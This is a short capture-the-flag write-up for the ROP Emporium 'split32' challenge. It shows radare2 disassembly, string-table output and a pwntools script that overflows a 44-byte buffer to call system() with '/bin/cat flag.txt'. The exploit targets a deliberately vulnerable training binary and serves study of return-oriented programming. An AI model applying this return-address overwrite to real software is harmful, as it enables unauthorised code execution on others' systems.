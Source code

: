 ```asm
┌ 25: sym.usefulFunction ();
│           0x0804860c      55             push ebp
│           0x0804860d      89e5           mov ebp, esp
│           0x0804860f      83ec08         sub esp, 8
│           0x08048612      83ec0c         sub esp, 0xc
│           0x08048615      680e870408     push str._bin_ls            ; 0x804870e ; "/bin/ls" ; const char *string
│           0x0804861a      e8c1fdffff     call sym.imp.system         ; int system(const char *string)
│           0x0804861f      83c410         add esp, 0x10
│           0x08048622      90             nop
│           0x08048623      c9             leave
└           0x08048624      c3             ret
```

Here we have the **system function at 0x0804861a** and the pointer to the string '/bin/ls' is placen into the stack. So in this case 
we don't need a gadget we just need to append the address of the string '/bin/cat flag.txt' after the address of the system function.


```
[0x08048430]> rabin2 -z split32
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt
```

The string '/bin/cat flag.txt' is placed at 0x0804a030. We have all that we need in order to win this challenge.


```python
from pwn import *
context.binary = elf = ELF('./split32')
offset = 44

call_system = 0x804861a
flag_string = 0x804a030

payload = b'c'*offset+p32(call_system)+p32(flag_string) 

p = elf.process()
p.recv()
p.sendline(payload)
log.info(p.recvall())
```
